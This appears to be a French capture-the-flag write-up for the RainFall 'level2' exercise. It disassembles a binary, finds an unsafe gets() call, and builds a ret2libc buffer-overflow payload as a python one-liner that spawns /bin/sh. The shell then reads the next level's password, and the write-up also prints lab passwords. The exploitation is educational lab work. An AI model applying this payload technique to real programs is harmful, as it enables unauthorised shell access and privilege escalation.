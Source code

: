On se connecte sur le level2, ou se trouve un **binaire** <code>level2</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
> disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

En traduisant le programme (dans **source.c**) on se rend compte de l'utilisation de la fonction **gets** (vulnerable) mais aussi d' une restriction sur l'adresse de retour sur la stack:
<pre><code>if (0xb0000000 == (address & 0xb0000000))
</code></pre>
ou
```gdb
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```

Nous allons donc faire un **buffer overflow** avec **shellcode**, et nous allons utliser un **POP POP RET** afin de bypasser la restriction.

On calcul l'**offset** qui va nous permettre de faire le **buffer overflow**:
```gdb
> gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > b *p+30 # Adresse juste apres le gets
(gdb) > run
Starting program: /home/user/level2/level2
AAAAAAAAAAAAA

Breakpoint 1, 0x080484f2 in p ()
> (gdb) x/10x $eax
0xbffff6bc:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6cc:     0xb7fd0f00      0x08048550      0x08049828      0x00000001
0xbffff6dc:     0x08048381      0xb7fd13e4

> (gdb) i f
Stack level 0, frame at 0xbffff710:
 eip = 0x80484f2 in p; saved eip 0x804854a
 called by frame at 0xbffff720
 Arglist at 0xbffff708, args:
 Locals at 0xbffff708, Previous frame's sp is 0xbffff710
 Saved registers:
  ebp at 0xbffff708, eip at 0xbffff70c
 
> (gdb) p 0xbffff70c - 0xbffff6bc
$1 = 80

> p *system
$3 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
> OFFSET : 80
> SYSTEM: <code>0xb7e6b060</code>
> RET: <code>0x0804853e</code>
> EXIT: <code>0xb7e5ebe0</code>



Pour récupéré l'adresse de /bin/sh, on écrit un petit programme en C dans /tmp.

```bash
> touch /tmp/getsh.c
> echo "#include <stdio.h>
#include <stdlib.h>
int main(){ printf(\"SHELL= %p\n\", getenv(\"SHELL\")); return 0; }" > /tmp/getsh.c
> cd /tmp
> gcc getsh.c
> ./a.out
SHELL= 0xbffff945
```

On change l'environement du shell pour passer sur **/bin/sh** car **bash** garde les privilèges de l'utilisateur qui l'invoque.
On execute ensuite le programme avec notre buffer overflow suivi d'une addresse de ret, d'une addresse système, de l'addresse d'un exit et de l'addresse du **/bin/sh**.
Si l'addresse est légèrement décaler (in/sh par exemple), il suffit de modifier légèrement l'addresse pour obtenir **/bin/sh**.

```bash
> SHELL=/bin/sh
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7'+ '\x45\xf9\xff\xbf'"; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`E
sh: 1: in/sh: Permission denied
^C`
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7'+ '\x43\xf9\xff\xbf'"; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`C`
cd ../level3 && cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

For download :
<pre><code>scp -P4242 level2@192.168.1.78:level2 .</code></pre>
> Password : 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77